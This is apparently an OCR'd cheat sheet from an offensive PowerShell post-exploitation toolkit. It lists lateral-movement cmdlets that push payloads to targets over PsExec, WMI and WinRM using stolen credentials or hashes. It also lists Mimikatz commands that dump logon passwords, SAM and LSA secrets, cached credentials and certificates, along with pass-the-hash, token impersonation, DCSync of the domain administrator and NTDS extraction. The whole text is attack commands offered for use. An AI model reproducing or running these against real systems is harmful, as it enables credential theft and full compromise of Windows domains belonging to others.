 Invoke-PsExecDaisyPayload -Target <ip> -Domain <dom> -User <user> -pass '<pass>' -Hash <hash-optional>

Invoke-WMIPayload -Target <ip> -Domain <dom> -Username <user> -Password '<pass>' -Hash <hash-optional>

Invoke-WMIProxyPayload -Target <ip> -Domain <dom> -User <user> -pass '<pass>' -Hash <hash-optional>

Invoke-WMIDaisyPayload -Target <ip> -Domain <dom> -user <user> -pass '<pass>'

Invoke-WMIExec -Target <ip> -Domain <dom> -Username <user> -Password '<pass>' -Hash <hash-optional> -command <cmd>

Invoke-WinRMSession -IPAddress <ip> -user <dom\user> -pass <pass>

# Credentials / Tokens / Local Hashes (Must be SYSTEM):

Invoke-Mimikatz | Out-String | Parse-Mimikatz

Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'

Invoke-Mimikatz -Command '"lsadump::sam"'

Invoke-Mimikatz -Command '"lsadump::lsa"'

Invoke-Mimikatz -Command '"lsadump::cache"'

Invoke-Mimikatz -Command '"ts::multirdp"'

Invoke-Mimikatz -Command '"privilege::debug"'

Invoke-Mimikatz -Command '"crypto::capi"'

Invoke-Mimikatz -Command '"crypto::certificates /export"'

Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<dom> /ntlm:<HASH> /run:c:\temp\run.bat"'

Invoke-Mimikatz -Computer 10.0.0.1 -Command '"sekurlsa::pth /user:<user> /domain:<dom> /ntlm:<HASH> /run:c:\temp\run.bat"'

Invoke-TokenManipulation | Select-Object Domain, Username, ProcessId, IsElevated, TokenType | ft -autosize | Out-String

Invoke-TokenManipulation -ImpersonateUser -Username "Domain\User"

# Credentials / Domain Controller Hashes:

Invoke-Mimikatz -Command '"lsadump::dcsync /domain:domain.local /user:administrator"'

Invoke-DCSync -PWDumpFormat

Dump-NTDS -EmptyFolder <emptyfolderpath>

# Useful Modules:

Show-ServerInfo
